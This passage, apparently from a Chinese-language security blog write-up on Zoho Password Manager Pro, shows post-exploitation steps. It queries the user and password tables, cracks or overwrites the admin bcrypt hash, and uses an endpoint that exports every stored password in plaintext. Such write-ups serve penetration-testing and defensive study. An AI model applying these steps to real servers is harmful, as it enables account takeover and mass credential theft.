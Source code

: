 - - -

## [](#%E8%BF%9B%E5%85%A5-pmp-web%E5%90%8E%E5%8F%B0)进入 pmp web 后台

在数据库中查询 web 后台的账号密码

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select * from aaauser;<br>``` |

[![Untitled](assets/1710207710-5d6197b92c4d09a5fc541a4683c44064.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2029.png)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select * from aaapassword;<br>``` |

[![Untitled](assets/1710207710-773b8ddedb02abab26f127d70f667004.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2030.png)

这里密码是进行 bcryptsha512 加密的，可以用 hashcat 进行爆破

[![Untitled](assets/1710207710-5d19c30c1fcfd66ae5cfe9f04aead093.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2031.png)

也可通过覆盖 hash 的方式修改 admin 账号的密码，例如修改为下列数据，即可将 admin 密码改为 test2

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```fallback<br>"password_id"	"password"	"algorithm"	"salt"	"passwdprofile_id"	"passwdrule_id"	"createdtime"	"factor"<br>"1"	"$2a$12$bOUtxZzgrAu.3ApJM7fUYu7xBfxhJ4k2gx5CQE5BzMcN.cr/6cbhy"	"bcrypt"	"wwwECQECvU8zqfmCnXfSTgFnfz9CDl/cX+yDwJEhJ+91ADnOHbR0q7rOASpBqm2mQgYLHtlUJSX5u4ad7yOJpVNkoPJoI6gev75VAwAf/BTM4rpHTLT+cCdWMwnHmg=="	"1"	"3"	"1666345834309"	"12"<br>``` |

注意⚠️：覆盖前务必备份源 hash 数据

[![Untitled](assets/1710207710-84668d16d58c7b3e608ac35b22c11a5a.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2032.png)

进入后台后可直接导出所有明文密码

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>/jsp/xmlhttp/AjaxResponse.jsp?RequestType=ExportPasswords<br>``` |

[![Untitled](assets/1710207710-bf2dfe1b5158adb376c7d47bf5edb224.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2033.png)

- - -

## [](#%E6%9C%AC%E5%9C%B0-web-accounts-reports-%E6%96%87%E4%BB%B6)本地 Web-Accounts reports 文件

在后台 personal 页面导出个人报告时可以选择 pdf 或 xls 格式，该文件在导出后会一直存在在服务器上

[![Untitled](assets/1710207710-a6c3bd06277556b5045df9674ae4536e.png)](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2034.png)
